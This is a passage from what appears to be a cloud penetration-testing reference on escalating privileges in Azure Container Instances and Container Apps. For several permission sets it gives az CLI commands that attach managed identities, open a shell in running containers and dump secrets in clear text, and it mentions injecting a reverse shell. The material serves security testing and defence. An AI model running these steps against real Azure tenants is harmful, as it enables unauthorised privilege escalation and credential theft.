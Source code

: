 ### `Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permission allows to **create or update a container group** with a **user managed identity** attached to it. This is very useful to escalate privileges in the container.

```bash
az container create \
  --resource-group <res-group> \
  --name nginx2 \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --assign-identity "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>" \
  --restart-policy OnFailure \
  --os-type Linux \
  --cpu 1 \
  --memory 1.0
```

Moreover, it's also possible to update an existing container group adding for example the **`--command-line` argument** with a reverse shell.

## ACA

### `Microsoft.App/containerApps/read`, `Microsoft.App/managedEnvironments/read`, `microsoft.app/containerapps/revisions/replicas`, `Microsoft.App/containerApps/revisions/read`, `Microsoft.App/containerApps/getAuthToken/action`

These permissions allow the user to **get a shell** in a runningapplication container. This can be used to **escalate privileges** in the container if it has any managed identity attached. Ofc, it's also possible to access the source code and any other sentitive information storeed inside the container.

```bash
az containerapp exec --name <app-name> --resource-group <res-group> --command "sh"
az containerapp debug --name <app-name> --resource-group <res-group>

```

### `Microsoft.App/containerApps/listSecrets/action`

This permission allows to get the **clear text of the secrets** configured inside a container app. Note that secrets can be configured with the clear text of with a link to a key vault (in such case the app will have assigned a managed identity with access over the secrets).

```bash
az containerapp secret list --name <app-name> --resource-group <res-group>
az containerapp secret show --name <app-name> --resource-group <res-group> --secret-name <scret-name>
```

### `Microsoft.App/containerApps/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`
